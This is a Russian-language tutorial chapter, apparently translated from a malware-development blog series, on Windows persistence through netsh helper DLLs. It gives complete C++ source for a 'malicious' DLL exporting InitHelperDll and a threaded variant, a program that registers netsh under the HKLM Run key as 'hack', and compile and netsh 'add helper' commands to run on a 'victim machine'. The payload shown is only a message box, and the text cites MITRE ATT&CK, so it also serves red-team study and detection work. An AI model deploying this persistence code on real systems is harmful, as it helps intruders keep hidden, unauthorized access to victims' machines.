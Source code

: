 \newpage
\subsection{72. Разработка вредоносного ПО: закрепление (persistence) - часть 6. Windows netsh helper DLL. Простой пример на C++.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

![pers](./images/56/2022-05-29_15-24_1.png){width="80%"}    

Этот раздел является продолжением серии статей о техниках и трюках о закреплении вредоносного ПО в Windows.    

Сегодня я расскажу о результате собственного исследования ещё одного метода закрепление в системе Windows: Netsh Helper DLL.    

### netsh

**Netsh** - это утилита Windows, которую администраторы могут использовать для настройки встроенного брандмауэра Windows и выполнения задач по конфигурации сети. Функциональность Netsh можно расширять с помощью DLL-файлов.

Эта возможность позволяет красным командам загружать произвольные DLL-файлы для выполнения кода и, следовательно, обеспечения закрепления с использованием этого инструмента. Однако для реализации данной техники требуются права локального администратора.

### практический пример

Рассмотрим практический пример. Сначала создадим вредоносную DLL:

```cpp
/*
evil.cpp
simple DLL example for netsh
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/05/29/malware-pers-6.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

extern "C" __declspec(dllexport) 
DWORD InitHelperDll(
DWORD dwNetshVersion, PVOID pReserved) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

Скомпилируем её:

```bash
x86_64-w64-mingw32-gcc -shared -o evil.dll evil.cpp -fpermissive
```

![pers](./images/56/2022-05-29_15-12.png){width="80%"}    

Затем передаём DLL на целевую машину жертвы.

Netsh взаимодействует с другими компонентами операционной системы через файлы динамических библиотек (DLL). Каждая вспомогательная DLL netsh предлагает полный набор функций. Функциональность Netsh можно расширить, используя DLL:

```powershell
reg query "HKLM\Software\Microsoft\NetSh" /s
```

![pers](./images/56/2022-05-29_15-20.png){width="80%"}    

Затем можно использовать команду `add helper`, чтобы зарегистрировать DLL в утилите `netsh`:

```powershell
netsh
add helper Z:\2022-05-29-malware-pers-6\evil.dll
```

![pers](./images/56/2022-05-29_15-23.png){width="80%"}    

![pers](./images/56/2022-05-29_15-24.png){width="80%"}    

Всё работает идеально!

Однако `netsh` по умолчанию не запускается автоматически. Для обеспечения закрепления на хосте можно создать ключ реестра, который выполнит приложение при запуске Windows. Это можно сделать с помощью следующего скрипта:

```cpp
/*
pers.cpp
windows persistence via netsh helper DLL
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/05/29/malware-pers-6.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // netsh
  const char* netsh = "C:\\Windows\\SysWOW64\\netsh";

  // startup
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, 
  (LPCSTR)"SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", 
  0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    RegSetValueEx(hkey, (LPCSTR)"hack", 
    0, REG_SZ, (unsigned char*)netsh, strlen(netsh));
    RegCloseKey(hkey);
  }
  return 0;
}
```

Как видите, этот скрипт похож на тот, что я использовал в своем посте о [закреплении через ключи реестра Run keys](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html).

Проверяем ключи реестра Run:

```powershell
reg query \
"HKLM\Software\Microsoft\Windows\CurrentVersion\Run" \
 /s
```

![pers](./images/56/2022-05-29_15-18.png){width="80%"}    

Компилируем скрипт:

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/56/2022-05-29_15-14.png){width="80%"}    

Запускаем на машине жертвы:      

```powershell
.\pers.exe
```

![pers](./images/56/2022-05-29_15-21.png){width="80%"}    

Когда команда `add helper` выполняется для загрузки DLL, создаётся следующий ключ реестра:     

![pers](./images/56/2022-05-29_15-25.png){width="80%"}    

Однако есть одна оговорка. Логика PoC требует обновления, чтобы создать новый поток, позволяя netsh продолжать работу, пока выполняется вредоносный код. Однако, когда netsh завершается, прекращается и выполнение вредоносного кода.

Давайте попробуем это исправить. Создадим новую DLL (`evil2.cpp`):

```cpp
/*
evil2.cpp
simple DLL for netsh
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/05/29/malware-pers-6.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

DWORD WINAPI Meow(LPVOID lpParameter) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 1;
}

extern "C" __declspec(dllexport) 
DWORD InitHelperDll(
DWORD dwNetshVersion, PVOID pReserved) {
  HANDLE hl = CreateThread(NULL, 0, Meow, NULL, 0, NULL);
  CloseHandle(hl);
  return 0;
}
```

Компилируем:

```bash
x86_64-w64-mingw32-gcc -shared -o evil2.dll evil2.cpp -fpermissive
```

![pers](./images/56/2022-05-29_16-21.png){width="80%"}    

Повторяем шаги снова:

```powershell
netsh
add helper Z:\2022-05-29-malware-pers-6\evil2.dll
```

![pers](./images/56/2022-05-29_16-23.png){width="80%"}    

Как видите, всё работает, `netsh` остаётся доступным. Проверим ключ реестра для проверки:

```powershell
reg query "HKLM\Software\Microsoft\NetSh" /s
```

![pers](./images/56/2022-05-29_16-23_1.png){width="80%"}    

Так как этот метод основан на эксплуатации системных функций, его сложно предотвратить с помощью стандартных защитных механизмов.

[netsh](https://docs.microsoft.com/en-us/windows-server/networking/technologies/netsh/netsh-contexts)    
[MITRE ATT&CK: Netsh Helper DLL](https://attack.mitre.org/techniques/T1546/007/)    
[исходный код на github](https://github.com/cocomelonc/2022-05-29-malware-pers-6)    
